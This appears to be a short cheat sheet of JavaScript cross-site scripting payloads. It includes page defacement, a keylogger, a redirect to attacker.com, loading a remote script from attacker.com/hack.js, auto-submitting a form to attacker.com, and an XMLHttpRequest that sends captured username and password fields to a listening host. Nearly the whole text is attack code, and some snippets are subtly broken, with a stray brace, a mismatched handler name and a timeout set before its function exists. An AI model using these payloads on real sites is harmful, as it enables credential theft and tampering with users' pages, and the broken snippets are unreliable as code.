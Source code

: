 ### Add and remove elements from the form
```javascript
var newElement = document.createElement("h1");
newElement.innerHTML = "You have been hacked !!"
document.forms[0].parentNode.appendChild(newElement);
document.forms[0].parentNode.removeChild(document.forms[0]);
```

### Capture the click event on the page
```javascript
// add event listener at document body level
document.body.addEventListener('click', ClickHandler, true);
function ClickListener(){
	alert('clicked !!');
```

### Redirect
```javascript
location.href = "http://attacker.com"
```

### Keylogger
```javascript
document.onkeypress = function(keystroke){
	key_pressed = String.fromCharCode(keystroke.which);
	alert("The key " + key_pressed + " is pressed");
}
```

### Add external javascript reference
```javascript
var newElement = document.createElement('script');
newElement.type = "text/javascript";
newElement.src = "http://attacker.com/hack.js";
document.body.appendChild(newElement);
}
```

### Autosubmit form
```javascript
window.setTimeout(fn, 1000);
var fn = function(){
	document.forms[0].action = "https://attacker.com/";
	document.forms[0].submit();
}
```

### AJAX GET request
```javascript
var username = document.forms[0].elements[0].value;
 
 var password = document.forms[0].elements[1].value;

 window.setTimeout(function(){
 
 var req = new XMLHttpRequest();

 req.open("GET", "http://localhost:8001/?username=" + username + "&password=" + password, true);

 req.send();
 }, 1000);
```

